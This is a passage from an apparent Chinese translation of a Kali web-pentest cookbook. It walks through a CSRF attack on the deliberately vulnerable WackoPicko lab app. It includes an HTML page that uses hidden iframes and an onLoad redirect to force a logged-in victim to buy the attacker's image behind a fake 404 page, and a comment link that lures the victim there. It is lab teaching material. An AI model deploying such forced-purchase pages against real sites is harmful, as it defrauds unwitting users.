     ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/7-6-1.jpg)
    
8.  现在，攻击者需要上传图片来强迫其它用户购买。登录为`attacker`之后，访问`Upload`，填充所需信息，选项需要上传的文件，点击`UploadFile`。

    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/7-6-2.jpg)
    
    一旦图片呗上传，我们会直接重定向到它的相应页面，你可以在这里看到：

    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/7-6-3.jpg)
    
    要注意为图片分配的 ID，它是攻击的核心部分，这里它是 16。
    
9.  一旦我们分析了购买流程，并拥有了图片 ID，我们需要启动托管恶意页面的服务器。在 Kali 中以 root 用户启动 Apache 服务器，像这样：

    ```
    service apache2 start 
    ```
    
0.  之后，创建 HTML 文件，叫做`/var/www/html/wackopurchase.html`，带有如下内容：

    ```html
    <html> 
    <head></head> 
    <body onLoad='window.location="http://192.168.56.102/ WackoPicko/cart/action.php?action=purchase";setTimeout("window. close;",1000)'> 
    <h1>Error 404: Not found</h1> 
    <iframe src="http://192.168.56.102/WackoPicko/cart/action. php?action=add&picid=16"> 
    <iframe src="http://192.168.56.102/WackoPicko/cart/review.php" > 
    <iframe src="http://192.168.56.102/WackoPicko/cart/confirm.php"> 
    </iframe> 
    </iframe> 
    </iframe> 
    </body>
    ```
    
    这个代码会我们的商品的发送`add`、`review`和`confirm`请求给 WackoPicko ，之后展示 404 页面给用户，当它加载完成后，它会重定向到购买操作，之后在一秒后关闭窗口。
    
1.  现在以`v_user`登录，上传图片并登出。

2.  作为攻击者，我们需要确保用户访问我们的恶意站点，同时仍然保持登录 WackoPicko。以`attacker`登录之后，访问`Recent`并选择属于`v_user`的图片（刚刚上传的那个）。

3.  我们需要在图片上输入下列评论。

    ```html
    This image looks a lot like <a href="http://192.168.56.1/ wackopurchase.html" target="_blank">this</a>
    ```
    
    > 译者注：这一步的前提是页面上存在 XSS，没有的话利用社会工程直接发送链接也是可行的。
    
4.  点击`Preview`之后`Create`。

    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/7-6-4.jpg)
    
    你可以看到，评论中允许 HTML 代码，而且当`v_user`点击链接是，我们的恶意页面会在新窗口打开。
    